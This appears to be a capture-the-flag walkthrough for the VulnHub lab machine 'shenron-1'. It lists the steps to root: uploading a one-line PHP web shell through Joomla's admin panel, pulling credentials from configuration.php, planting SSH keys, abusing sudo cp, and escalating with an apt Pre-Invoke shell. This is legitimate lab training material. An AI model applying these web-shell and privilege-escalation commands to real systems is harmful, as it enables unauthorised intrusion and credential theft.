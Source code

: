 ## shenron-1

### https://www.vulnhub.com/entry/shenron-1,630/

- /test/password contains login and password in source code: "admin:3iqtzi4RhkWANcu@$pa$$"
- using gobuster we can notice /joomla url
- in admin panel we can upload shell.php:

`<?php echo shell_exec($_GET['cmd']); ?>`

- By execution **cat ../../configuration.php** in our shell, we can find user and password: "jenny:Mypa$$wordi$notharD@123"
- Now we can access jenny account: **shell.php?cmd=(echo 'Mypa$$wordi$notharD@123' | su - jenny -c "whoami") > result.txt &**. Next **shell.php?cmd=cat result.txt**
- Next we need create ssh key and .pub file's content paste into /home/jenny/.ssh/authorized\_keys and login with ssh as jenny (dont forget to encode public key)
- By typing **sudo -l** we can notice, that we can use **cp** as shenron. Using this command we need to copy authorized\_key into /home/shenron/.ssh/authorized\_keys and connect with ssh as shenron
- In /home/shenron we can find first flag
- Next by searching in folders, we can find /var/opt/password.txt - password of shenron
- Next using password, run: **sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh**
- Run: cat /root/root.txt - second flag
